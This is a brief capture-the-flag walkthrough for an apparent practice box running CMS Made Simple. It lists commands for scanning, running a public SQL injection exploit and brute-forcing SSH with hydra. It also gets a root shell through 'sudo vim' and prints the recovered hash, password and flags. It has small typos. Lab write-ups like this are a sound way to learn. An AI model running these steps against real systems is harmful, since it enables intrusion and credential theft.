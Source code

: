 # Simple

1. did an nmap scan using  
> nmap -A -sV `ip-address`

2. searched for hidden and (un)available pages
> gobuster dir -u http://`ip`/ -w /usr/share/dirb/wordlists/common.txt
>> gubuster dir -u http://`ip`/ -x txt,php,html -w /usr/share/dirb/wordlists/common.txt -t 200 2>/dev/null

3. had to look for vulnerabilities, in particular a CVE one, ended up finding CVE-2019-9063 using
> searchsploit cms made simple
	- then look for a specific one for the right 2.2.8 version (ish) and double check on `cve details` for more info

4. download the exploit to use on website
> searchsploit -m 46635 
>> change + fix python file if needed

5. run python program/ecxploit
> python 46635.py -u http://`ip`/simple/ --crack -w /usr/share/wordlists/rockyou.txt

6. found that:
> salt =  1dac0d92e9fa6bb2
> username = mitch
> email = admin@admin.com
> try: 0c01f4468bd75d7a84c7eb73846e8d96($)

7. the python program did not work as expected to find password, nor did hashcat (10 and 20) so used hydra:
> hydra -l `username` -P /usr/share/wordlists/rockyou.txt ssh://`ip`:2222 -t 4

8. gives the password `secret`
9. connect to ssh
> ssh -p 2222 username@ip

10. open user.txt to get flag `G00d j0b, keep up!`
> cat user.txt

12. go to password file to find other users in home directory to find `sunbath`
> /etc/passwd

12. run and see what privileges you can get
> sudo -l

13. use vim to upgrade
> sudo vim -c ":!/bin/sh"

14. look around to find another file `root.txt` whih contains the root flag `W3ll d0n3. You made it!`
> cd ..
> ls -ls
> cs root
> cat root.txt 
	